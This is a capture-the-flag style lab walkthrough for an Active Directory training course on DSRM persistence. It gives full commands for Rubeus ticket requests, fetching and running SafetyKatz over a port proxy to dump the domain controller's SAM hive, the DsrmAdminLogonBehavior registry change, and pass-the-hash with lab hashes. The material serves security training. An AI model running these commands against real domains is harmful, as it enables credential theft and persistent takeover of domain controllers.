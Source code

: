 ```yaml
---
icon: vial
---
```


# 11 - Learning Object1️1️

## Tasks



1 - Use Domain Admin privileges obtained earlier to abuse the DSRM credential for persistence

Flag 20 \[dcorp-dc] - Name of the Registry key modified to change Logon behavior of DSRM administrator 🚩

## Solutions

### 1 - Use Domain Admin privileges obtained earlier to abuse the DSRM credential for persistence

To obtain a persistance with administrative access to the DC we need to have Domain Admin privileges by abusing the DSRM administrator:

```powershell
 C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

As usual, into the new shell spawned we need to run the following commands for copying Loader.exe to the DC and extract credentials from the SAM hive:

```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
winrs -r:dcorp-dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.67
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "token::elevate" "lsadump::evasive-sam" "exit"
```

<figure><img src="../../.gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

The DSRM administrator is not allowed to logon to the DC from network, so we need to change the logon behavior for the account by modifying registry on the DC. We can do this as follows:

```powershell
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f
```

Now on the student VM, we can use Pass-The-Hash (not OverPass-The-Hash) for the DSRM administrator:

```powershell
 C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe "sekurlsa::evasive-pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:cmd.exe" "exit"
```

From the new procees, we can now access dcorp-dc. In this case we are using PowerShell Remoting with IP address and Authentication: 'NegotiateWithImplicitCredential' as we are using NTLM authentication. So, it's necessary to modify TrustedHosts for the student VM running the below command from an elevated PowerShell session:

```powershell
Set-Item WSMan:\localhost\Client\TrustedHosts 172.16.2.1
```

Now, run the commands below to access the DC:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```powershell
Enter-PSSession -ComputerName 172.16.2.1 -Authentication NegotiateWithImplicitCredential
```

```powershell
$env:username
```

<figure><img src="../../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>

### Flag 20 \[dcorp-dc] - Name of the Registry key modified to change Logon behavior of DSRM administrator 🚩

```powershell
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f
```

Based on the last command, the registry key modified to change Logon behavior of DSRM administrator is: DsrmAdminLogonBehavior.
